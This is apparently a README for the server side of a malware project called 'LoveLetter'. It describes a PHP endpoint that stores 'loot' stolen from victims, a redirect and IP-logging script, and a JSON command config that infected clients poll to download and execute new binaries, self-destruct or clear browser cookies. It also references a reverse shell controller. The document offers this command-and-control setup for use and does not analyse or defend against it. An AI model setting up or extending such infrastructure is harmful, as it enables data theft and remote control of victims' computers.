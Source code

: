 <div>
  <img width="220" align="right" src="../Repo/Images/8.png" alt="LoveLetter"/>
  <br>
</div>


# 🎁 PHP Endpoints
The server system contains the following scripts that does their job"

### 📝 [Tell me!](TellMe.php) (TellMe.php)
The PHP file that handles and stores loot from the letter and stores them nicely structured on the server.

### 📝 [Take me there.](TakeMeThere.php) (TakeMeThere.php)
A redirector and IP logger, the usage is pretty simple a base64 format of the target link can be parametered on ``b64=AkN==`` or a clean link can be parametered on ``to=link``.
<br/>


# ⚙️ Configuration
Update.json is being fetched by the client to check for any server commands. You can update it to your liking.
This config gets initialized everytime the letter is run and then refreshed every 60 seconds, for controlling on runtime, please see [the Controller]("../Controller/")
## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.


<br/>
<br/>

### For real-time commands you may use the [**Reverse Shell**](../Controller).